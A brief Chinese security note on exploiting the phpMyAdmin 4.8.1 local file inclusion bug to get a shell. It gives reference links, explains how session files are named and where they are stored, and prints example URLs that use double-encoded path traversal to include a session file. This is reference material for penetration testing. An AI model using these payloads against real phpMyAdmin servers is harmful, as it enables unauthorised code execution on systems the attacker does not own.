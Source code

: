 - phpmyadmin 4.8.1后台getshell【利用包含漏洞】：

  - [https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

  - [https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/)

  - session文件名为：sess + SessionID

  - SessionID是返回数据包Cookies的phpMyAdmin字段

  - session文件具体位置看具体环境：phpStudy在`E:\phpStudy\PHPTutorial\tmp\tmp\`；Linux在php资源文件下如`/var/lib/php/sessions/`

  - payload如：phpStudy

    ```
    http://localhost/phpMyAdmin-4.8.1/index.php?target=db_sql.php
    %253f/../../../../../phpStudy/PHPTutorial/tmp/tmp/sess_vhdegb04rh891qn4pq7h1fkg4eqk75la

    http://localhost/phpMyAdmin-4.8.1/index.php?target=db_sql.php%253f/../../../tmp/tmp/sess_vhdegb04rh891qn4pq7h1fkg4eqk75la
    ```

    ​